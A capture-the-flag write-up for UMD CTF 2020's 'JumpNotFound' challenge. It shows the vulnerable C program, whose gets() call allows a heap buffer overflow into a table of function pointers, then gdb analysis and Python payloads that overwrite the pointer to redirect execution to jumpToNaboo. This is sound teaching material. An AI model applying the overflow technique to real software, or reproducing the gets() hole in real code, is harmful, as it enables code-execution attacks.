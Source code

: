 :source-highlighter: pygments
:imagesdir: img/WriteUp-UMD-Naboo
== Write Up JumpNotFound - UMD 2020

In this article, I am going to explain how I solve the challenge JumpNotFound from the UMD CTF 2020. The goal of this challenge is to be able to call a function called `jumpToNaboo`.

=== Vulnerabily
[source,c++,numbered]
----
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct coordinates
{
    char userinput[64];  
    short choice;
};

struct jmptable
{
    void (*hyperJump1)();
    void (*hyperJump2)();
    void (*hyperJump3)();
    
};

void jumpToHoth()
{
    printf("Jumping to Hoth...\n");
}
void jumpToCoruscant()
{
    printf("Jumping to Coruscant...\n");
}
void jumpToEndor()
{
    printf("Jumping to Endor...\n");
}

void jumpToNaboo()
{
    printf("Jumping to Naboo...\n *Run this on the server to get the flag. *\n");
}

int main() {

  
    char* ptr;
    
    struct coordinates* ptr1;
    struct jmptable* ptr2;
    
    ptr1 = malloc(sizeof(struct coordinates));
    ptr2 = malloc(sizeof(struct jmptable));
    
    ptr2->hyperJump1 = &jumpToHoth;
    ptr2->hyperJump2 = &jumpToCoruscant;
    ptr2->hyperJump3 = &jumpToEndor;
    
    
    
    while(1)
    {
        printf("SYSTEM CONSOLE> ");
        gets(ptr1->userinput);
        ptr1->choice = strtol(ptr1->userinput, &ptr, 10);
    	
        switch( (int)ptr1->choice)
        {
            case 1:
            {
                printf("Checking navigation...\n");
                ptr2->hyperJump1();
                break;
            }

            case 2:
            {
                printf("Checking navigation...\n");
                ptr2->hyperJump2();
                break;
            }

            case 3:
            {
                printf("Checking navigation...\n");
                ptr2->hyperJump3();
                break;
            }

            case 4:
            {
                printf("Logging out\n");
                exit(0);
            }
            default:
            {
                printf("Check Systems\n");
                printf("1 - Hoth\n");
                printf("2 - Coruscant\n");
                printf("3 - Endor\n");
                printf("4 - Logout\n");
            }


        }
    }
    return 0;
}
----

The program is super simple. It asks a number to the user and jump to the corresponding function. The mecanism is based on a jump table and a coordinates structure both allocated on the heap.

[source,c++,numbered]
----
    struct coordinates* ptr1;
    struct jmptable* ptr2;
    
    ptr1 = malloc(sizeof(struct coordinates));
    ptr2 = malloc(sizeof(struct jmptable));
----

The user has control over the coordinates structure via this code:
[source,c++,numbered]
----
    gets(ptr1->userinput);
    ptr1->choice = strtol(ptr1->userinput, &ptr, 10);
----

It is obvious here that we have a buffer overflow, and more precisely a heap buffer overflow. But how can we exploit this buffer overflow to be able to redirect code execution to `jumpToNaboo` ? By overwriting the jump table of course !

=== Exploit
To exploit the buffer overflow, we will use dynamic analysis with gdb. 

[source,c++,numbered]
----
struct coordinates
{
    char userinput[64];  
    short choice;
};

struct jmptable
{
    void (*hyperJump1)();
    void (*hyperJump2)();
    void (*hyperJump3)();
    
};
----

Let's say that we want to overwrite the `hyperJump1` variable. For that we will "fuzz" the binary with gdb to know the padding between `userinput` and `hyperJump1` on the heap.

[source,python,numbered]
----
p = "1" + "\x00"
idx = 'A'
for i in range(26):
    p += idx * 8
    idx = chr(ord(idx) + 1)

print(p)
----

Let me explain this code.

[source,python,numbered]
----
p = "1" + "\x00"
----

This piece of code selects the first option in the program. The C code use `strtol` to get an integer from the user input. So `strtol` will read our user input until a `0x0`. The user input is queried by `gets` that stops only when `EOF` or newline occurs. So having a `0x0` in the user input is not a problem.

The remaining python code is just a loop to print `AAAAAAAABBBBBBBB ....`.

Let's run the binary with this input in gdb !

image::gdb.png[]

We set a breakpoint at `0x4007fe` because this is the address where the call to the first jump function (the one we want to overwrite) is made.
Once we reached this breakpoint, print the value of the register (`rdx`) that is supposed to contained the address of the needed function pointer. In our case, `rdx` is equal to `0x4b4b4b4b4b4b4a4a` wich is `KKKKKKJJ`. We successfuly overwrite the jump table ! And we know that the padding is `AAAAAAA...IIJJJJJJ`, so 78 bytes of padding.

Now that we have the padding, we need to find the address of `jumpToNaboo`. For that, we use gdb too. Just print `p jumpToNaboo`. We can just do that because the binary is not compile with PIE and has only PartialRelRo.

image::gdb2.png[]

Now that we have everything, update our python script and theeeeeeen failed !

[source,python,numbered]
----
idx = 'A'
for i in range(9):
    p += idx * 8
    idx = chr(ord(idx) + 1)

p += struct.pack("<Q",   0x40070a)
print(p)
----

Remember, the C code uses `gets` to get the userinput and `gets` stops on newline. But the address of `jumpToNaboo` contains `0x0a` which is ... a newline. Mh.

Let's try with `0x40070b` if it works.

[source,python,numbered]
----
idx = 'A'
for i in range(9):
    p += idx * 8
    idx = chr(ord(idx) + 1)

p += struct.pack("<Q",   0x40070b)
print(p)
----

image::victory.png[]

IT WORKS !